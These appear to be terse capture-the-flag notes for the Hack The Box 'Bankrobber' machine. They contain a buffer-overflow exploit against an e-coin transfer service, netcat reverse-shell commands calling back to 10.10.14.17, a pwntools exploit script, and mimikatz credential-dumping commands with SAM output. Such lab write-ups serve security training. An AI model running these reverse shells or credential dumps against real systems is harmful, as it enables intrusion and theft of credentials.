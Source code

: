 
b' Please enter the amount of e-coins you would like to transfer:\n'
b' [$]  [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application. \n'
b' [$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'

68/100 A's are sent


kali@kali:~/htb/boxes/bankrobber/10.10.10.154$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A



b' [$]  [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application. \n'
b' [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A\n'


msf-pattern_offset -l 100 -q 0Ab1                                                                
[*] Exact match at offset 32



start in background
C:\Users\Cortin>start /B \\10.10.14.17\share\nc.exe 10.10.14.17 4444 -e cmd.exe



Copy-Item "//10.10.14.17/share/nc.exe" -Destination "nc.exe"

```py
from pwn import *

r = remote("localhost", 910)
r.recvuntil("[$] ")
r.sendline("0021")
sleep(1)
r.sendline("A"*32 + "C:\\Users\\Public\\nc.exe 10.10.14.17 1337 -e cmd.exe")
while True:
    try:
        print(r.recvline())
    except EOFError:
        break
r.close()
```

transfer mimikatz

lsadump::sam filename1.hiv filename2.hiv
privilege::debug
token::elevate
https://www.ultimatewindowssecurity.com/blog/default.aspx?p=c2bacbe0-d4fc-4876-b6a3-1995d653f32a


mimikatz # lsadump::sam filename1.hiv filename2.hiv
Domain : BANKROBBER
SysKey : 202fdd107485196bc066406e723ce9b3
Local SID : S-1-5-21-2969120486-4178414442-4202251737
